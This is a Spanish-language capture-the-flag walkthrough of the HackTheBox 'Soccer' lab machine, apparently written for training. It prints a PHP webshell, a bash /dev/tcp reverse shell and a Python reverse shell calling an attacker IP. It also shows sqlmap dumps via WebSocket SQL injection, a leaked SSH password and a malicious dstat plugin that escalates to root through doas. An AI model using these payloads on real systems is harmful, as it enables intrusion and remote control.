## Introducción
El día de hoy veremos la máquina **Soccer** de la plataforma de HackTheBox. Se trata de una máquina Linux de nivel fácil que aborda los siguientes conceptos:

- Web Enumeration
- Abusing Tiny File Manager (RCE by Uploading a Malicious PHP File)
- WebSocket SQL Boolean-Based/Time-Based Blind Injection
- Abusing Doas Privilege (dstat) [Privilege Escalation]

## Resolución

# Reconocimiento

Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap`:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.10.11.194 -oN puertos.txt
```

```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
9091/tcp open  xmltec-xmlmail?
```

Identificamos tres puertos abiertos. El servidor HTTP redirige al dominio `soccer.htb`, así que lo añadimos a nuestro `/etc/hosts`:

```
10.10.11.194 soccer.htb
```

### Puerto 80 - HTTP

La página principal es una landing estática del club de fútbol HTB FootBall Club sin funcionalidad interesante:



Procedemos a enumerar directorios con `gobuster`:

```bash
gobuster dir -u http://soccer.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

La enumeración revela la existencia del directorio `/tiny`:



### Tiny File Manager

Al acceder a `/tiny` encontramos un panel de login de **Tiny File Manager**, un gestor de archivos web escrito en PHP:



Buscando en la documentación oficial del proyecto en GitHub, encontramos que las credenciales por defecto son `admin:admin@123` y `user:12345`. Probamos con `admin:admin@123` y accedemos correctamente:

Una vez dentro, observamos que el directorio raíz `/var/www/html/` no tiene permisos de escritura para nosotros, pero el subdirectorio `/tiny/uploads/` sí los tiene.

# Explotación

### Subida de Webshell (Unrestricted File Upload)

Navegamos al directorio `/tiny/uploads` dentro del gestor y subimos una webshell PHP simple:

```php
<?php system($_GET["cmd"]); ?>
```



Verificamos la ejecución de comandos:

```
http://soccer.htb/tiny/uploads/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Nos ponemos en escucha con `netcat` y enviamos una reverse shell:

```bash
nc -lvnp 4444
```

```
http://soccer.htb/tiny/uploads/shell.php?cmd=bash -c "bash -i >%26/dev/tcp/10.10.14.140/4444 0>%261"
```

Recibimos la shell como `www-data`:

# www-data ➜ player

### Descubrimiento del Subdominio

Revisando la configuración de nginx en `/etc/nginx/sites-enabled/`, encontramos un segundo virtual host:

```bash
cat /etc/nginx/sites-enabled/soc-player.htb
```

```nginx
server {
    listen 80;
    server_name soc-player.soccer.htb;
    root /root/app/views;
    location / {
        proxy_pass http://localhost:3000;
        ...
    }
}
```

Añadimos el nuevo subdominio a nuestro `/etc/hosts` local:

```
10.10.11.194 soccer.htb soc-player.soccer.htb
```

### soc-player.soccer.htb

Al acceder al nuevo subdominio encontramos la misma web pero con funcionalidades adicionales: registro, login y un verificador de tickets:



Creamos una cuenta desde el panel de registro:


Al loguearnos nos redirige a `/check`, donde podemos introducir un ID de ticket para comprobar si existe:



Interceptando la petición con Burp Suite, observamos que la comunicación no se realiza por HTTP convencional, sino mediante **WebSockets** sobre el puerto `9091`:



El mensaje enviado al servidor es simplemente un objeto JSON con el campo `id`:

```json
{"id": "1234"}
```

### SQL Injection sobre WebSockets

Comprobamos si el endpoint es vulnerable a inyección SQL con `sqlmap`. Dado que `sqlmap` no soporta WebSockets directamente, lo usamos indicando el esquema `ws://`:

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3
```



Confirmamos que existe una vulnerabilidad de tipo **Boolean-Based Blind SQL Injection**. Procedemos a enumerar las bases de datos disponibles:

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --dbs --threads 10
```



Enumeramos las tablas de la base de datos `soccer_db`:

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db --tables --threads 10
```



Finalmente, extraemos el contenido de la tabla `accounts`:

```bash
sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db -T accounts --dump --threads 10
```



Obtenemos las credenciales del usuario `player`: `PlayerOftheMatch2022`.

Nos conectamos por SSH:

```bash
ssh player@10.10.11.194
```



La flag de usuario se encuentra en `/home/player/user.txt`.

# Escalada de Privilegios

### Enumeración con SUID

Buscamos binarios con el bit SUID activo:

```bash
find / -perm -4000 2>/dev/null
```



Identificamos `/usr/local/bin/doas`, que es una alternativa a `sudo` originaria de OpenBSD, diseñada para ser más ligera y segura. El hecho de que tenga el bit SUID lo convierte en un vector de escalada interesante.

### Configuración de doas

Localizamos el archivo de configuración de `doas`:

```bash
find / -name doas.conf 2>/dev/null
# /usr/local/etc/doas.conf

cat /usr/local/etc/doas.conf
# permit nopass player as root cmd /usr/bin/dstat
```

La configuración indica que el usuario `player` puede ejecutar `/usr/bin/dstat` como `root` sin necesidad de contraseña.

### dstat y sus Plugins

`dstat` es una herramienta de monitorización del sistema. Lo que la hace explotable aquí es que, según su propia página de manual, acepta **plugins externos escritos en Python**. Las rutas donde busca estos plugins son:

```
~/.dstat/
(path of binary)/plugins/
/usr/share/dstat/
/usr/local/share/dstat/
```

Los plugins deben seguir la convención de nombre `dstat_<nombre>.py`. Comprobamos si tenemos permisos de escritura en alguna de estas rutas:

```bash
ls -la /usr/local/share/dstat/
```

Efectivamente, el directorio `/usr/local/share/dstat/` es escribible por el grupo `player`. Esto significa que podemos depositar ahí un plugin malicioso que se ejecutará con privilegios de `root` cuando lo invoquemos con `doas`.

### Creación del Plugin Malicioso

Creamos un plugin que simplemente lanza una shell de Bash:

```bash
echo 'import os; os.system("/bin/bash")' > /usr/local/share/dstat/dstat_exploit.py
```

Alternativamente, si preferimos una reverse shell:

```python
import socket,subprocess,os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.14.140", 9001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/sh", "-i"])
```

### Ejecución y Obtención de Root

Si usamos la variante de shell interactiva, simplemente ejecutamos el plugin con `doas`:

```bash
doas /usr/bin/dstat --exploit
```

El nombre del flag `--exploit` corresponde al sufijo del archivo `dstat_exploit.py`. El proceso carga el plugin como `root` y obtenemos una shell con privilegios máximos:

```
root@soccer:/home/player#
```

La flag de root se encuentra en `/root/root.txt`.

¡Ya somos root! 🎉